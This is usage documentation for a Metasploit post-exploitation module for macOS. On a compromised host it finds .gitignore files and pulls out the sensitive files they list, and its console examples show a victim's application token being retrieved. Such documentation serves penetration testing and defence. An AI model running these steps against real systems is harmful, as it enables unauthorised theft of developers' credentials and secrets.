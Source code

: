 ## Vulnerable Application

This module finds and retrieves gitignore files from the user's home directory, as well as retrieves the contents of files found in the gitignore.

## Verification Steps

  1. Start msfconsole
  2. Get at least a user shell

  Locate gitignore files:
  3. Do: ```use post/osx/gather/gitignore```
  4. Do: ```set session #```
  5. Do: ```set mode 1```
  5. Do: ```run```
  6. You should see a list of all gitignore files with absolute path located recurively from the users'r home directory

  Retrieve gitignore files:
  7. Do: ```set mode 2```
  8. Do: ```set file /absolute/path/to/.gitignore```
  9. Do ```run```
  10. You should see the contents of the gitignore file. If you see anything useful, you can also retrieve these artifacts.

  Retrieve sensitive or interesting artifacts:
  11. Do: ```set file /absolute/path/to/sensitive_file```
  12. Do: ```run```

## Options

  **MODE**
  Select between enumeration and retrieval mode. Mode 1 is enumeration of all gitignore files recursively in the user's home directory. Mode 2 is used for retrieving file contents should they be ASCII text.

  **FILE**
  This is the absolute file path to the .gitignore and/or sensitive file you would like to retrieve.

## Scenarios

Gitignore files commonly list items developers don't want leaked and generally contain sensitive information.

### Finding gitignore files

```
msf6 post(osx/gather/gitignore) > set mode 1
msf6 post(osx/gather/gitignore) > set session 1
msf6 post(osx/gather/gitignore) > run

[*] Fetching .gitignore files
[+] /Users/victim/Documents/project/.gitignore
[+] ...
[*] Post module execution completed
```

### Recovering contents of a specific gitignore

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.gitignore
msf6 post(osx/gather/gitignore) > set mode 2
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.gitignore
[+] .sensitive_file
[*] Post module execution completed
```

### Recovering contents of a sentitive file

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.sensitive_file
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.sensitive_file
[+] PWNED_APPLICATION_TOKEN=cHduZWQgdXIgZ2l0aHVi
[*] Post module execution completed
```

